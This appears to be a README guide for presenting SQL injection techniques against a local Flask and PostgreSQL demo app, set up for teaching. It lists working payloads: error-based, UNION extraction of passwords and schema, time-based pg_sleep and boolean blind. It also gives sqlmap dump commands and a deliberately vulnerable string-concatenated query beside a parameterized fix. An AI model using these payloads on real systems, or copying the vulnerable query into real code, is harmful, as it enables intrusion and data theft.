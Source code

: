 # SQL Injection Demonstration Guide

This guide provides step-by-step instructions for demonstrating different SQL injection vulnerability testing techniques using this project.

## Prerequisites

1. PostgreSQL installed and running
2. Python 3.x with required packages installed (`pip install -r requirements.txt`)
3. Database setup completed (`python setup_db.py`)

## Setup Instructions

1. First, install the required Python packages:

```bash
pip install -r requirements.txt
```

2. Set up the demo database (only needs to be done once):

```bash
python setup_db.py
```

3. Start the Flask application:

```bash
python app.py
```

The Flask server will run on `http://localhost:5000`.

## Demonstration Techniques

### 1. Testing Normal Input

To demonstrate a baseline normal operation:

```bash
python test_sqli.py --test normal
```

**What to show:**
- Open browser to `http://localhost:5000` and enter "1" in the form
- Show that normal input returns expected user data
- Point out in the code that this is establishing a baseline before testing

### 2. Testing Error-based SQL Injection

To demonstrate error-based SQL injection:

```bash
python test_sqli.py --test error
```

**Manual demo steps:**
1. Open browser to `http://localhost:5000`
2. Enter `1'` in the form and submit
3. Show the SQL error message returned to the user
4. Explain how this reveals database structure information

**Key payloads to highlight:**
- `1'` (basic syntax error)
- `1 AND 1=2` (logical error - returns no data)
- `1' OR '1'='1` (authentication bypass)

**Code walkthrough:**
- Show the vulnerable code in `app.py` where string concatenation is used:
  ```python
  query = f"SELECT CAST(id AS VARCHAR), username, email FROM users WHERE id = {user_id}"
  ```

### 3. Testing Union-based SQL Injection

To demonstrate union-based SQL injection:

```bash
python test_sqli.py --test union
```

**Manual demo steps:**
1. Open browser to `http://localhost:5000`
2. Enter `0 UNION SELECT username, password, email FROM users` and submit
3. Show how sensitive data like passwords is revealed

**Key payloads to highlight:**
- `1 ORDER BY 1` (determine column count)
- `1 UNION SELECT 1,2,3` (basic union injection)
- `0 UNION SELECT username, password, email FROM users` (extracting sensitive data)

**For database schema extraction:**
```
0 UNION SELECT table_name, table_schema, 3 FROM information_schema.tables
```

### 4. Testing Time-based Blind SQL Injection

To demonstrate time-based blind SQL injection:

```bash
python test_sqli.py --test time
```

**Manual demo steps:**
1. Open browser to `http://localhost:5000`
2. Enter `1; SELECT pg_sleep(3)--` and submit
3. Show how the response is delayed by ~3 seconds

**Key demonstration points:**
- Use a stopwatch or timer to show the delay
- Explain how this technique can be used even when there's no visible output
- Show the terminal output highlighting the response time differences

### 5. Testing Boolean-based Blind SQL Injection

To demonstrate boolean-based blind SQL injection:

```bash
python test_sqli.py --test boolean
```

**Manual demo steps:**
1. Open browser to `http://localhost:5000`
2. Enter `1 AND 1=1` (returns data), then try `1 AND 1=2` (returns no data)
3. Show how responses differ based on the condition

**Key demonstration points:**
- Show how TRUE conditions return data while FALSE conditions don't
- Explain how attackers can use this to extract data bit by bit
- Demonstrate with practical examples like `1 AND (SELECT count(*) FROM users) > 0`

### 6. Comparing Secure vs. Vulnerable Endpoints

To demonstrate the difference between secure and vulnerable implementations:

```bash
python test_sqli.py --test compare
```

**Manual demo steps:**
1. Try same payloads on both endpoints:
   - Vulnerable: `http://localhost:5000/user?id=1 OR 1=1`
   - Secure: `http://localhost:5000/secure-user?id=1 OR 1=1`
2. Show how secure endpoint rejects malicious input

**Code comparison:**
- Show the vulnerable code:
  ```python
  query = f"SELECT CAST(id AS VARCHAR), username, email FROM users WHERE id = {user_id}"
  ```
- Show the secure code using parameterized queries:
  ```python
  query = "SELECT id, username, email FROM users WHERE id = %s"
  cur.execute(query, (user_id,))
  ```

### 7. Using Automated Tools (SQLMap)

If SQLMap is installed, demonstrate automated testing:

```bash
sqlmap -u "http://localhost:5000/user?id=1" --dbs
```

To extract tables from the database:

```bash
sqlmap -u "http://localhost:5000/user?id=1" -D demo_sqli --tables
```

To dump data from the users table:

```bash
sqlmap -u "http://localhost:5000/user?id=1" -D demo_sqli -T users --dump
```

## Common Demonstration Tips

1. **Audience Engagement**:
   - Ask questions like "What do you think will happen when we add a single quote?"
   - Have participants predict outcomes before showing results

2. **Visual Aids**:
   - Use browser's network tab to show response times for time-based attacks
   - Highlight important parts of error messages
   - Split screen to show code and results side by side

3. **Security Context**:
   - Always emphasize that these techniques are for educational purposes
   - Discuss prevention methods (parameterized queries, input validation, least privilege)
   - Show real-world impact by pointing out sensitive data exposure

## Troubleshooting

**Common issues:**

1. **Database connection failure**:
   - Check PostgreSQL is running
   - Verify connection parameters in app.py match your setup

2. **Flask app not starting**:
   - Check for port conflicts (default is 5000)
   - Ensure required packages are installed

3. **SQL injection not working**:
   - PostgreSQL syntax differs slightly from other databases
   - Check payload syntax for PostgreSQL compatibility
